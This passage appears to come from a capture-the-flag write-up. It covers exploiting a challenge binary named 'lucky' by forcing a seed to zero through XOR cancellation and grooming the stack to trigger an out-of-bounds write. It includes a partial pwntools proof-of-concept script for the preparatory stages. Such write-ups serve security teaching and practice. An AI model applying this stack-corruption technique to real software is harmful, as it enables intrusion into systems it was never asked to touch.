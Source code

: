 ##### Stage 2 — zero the seed (`*(_QWORD *)&seed`)
Call `gen_user_id` with inputs chosen so that the XOR-based seed computation evaluates to `0`. Use the XOR identity `A ^ A = 0`: select username/birthday inputs so the intermediate XOR result repeats itself, cancelling to zero. This satisfies the first precondition.

---

#### Trigger the OOB write
With both preconditions true and the caller stack groomed so that attacker-controlled bytes occupy the callee’s uninitialized local slots, call `gen_lucky_numbers` again. Because `max_number_of_nums_to_change` now contains our controlled value, the check on `number_of_nums_to_change` can be bypassed and the loop will perform an out-of-bounds write into stack memory under our control.

---

#### Proof-of-concept (Stage 1 + Stage 2)
Below is the exploit code used for the staged preparation described above (Stage 1: clear `dword_4010`, Stage 2: craft inputs to make `seed == 0`). This is the script referenced earlier in the writeup.

```python
from pwn import *
import struct, sys

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './lucky'

elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

io = start()

# Stage 1: call gen_lucky_numbers once to clear dword_4010
io.sendlineafter('> ', b'2')
io.sendlineafter('change?', b'0')

# Stage 2: call gen_user_id with crafted username/birth to force seed == 0
io.sendlineafter('> ', b'1')

target_number_in_int = 20
target_number_in_hex = struct.pack("<I", target_number_in_int)
total_username_length = 64

# Build username so that the chunks XOR to a controllable value
username_in_memory = target_number_in_hex * 15
io.sendafter('name:', username_in_memory)

calculated_padding = total_username_length - len(target_number_in_hex*15)
username_in_memory += b'\x00' * calculated_padding

current_xor = 0
for i in range(0, len(username_in_memory), 8):
    chunk = username_in_memory[i:i+8]
    val, = struct.unpack("<Q", chunk)
    current_xor ^= val

birth_year = current_xor & 0xFFFFFFFFFFFFFFFF
```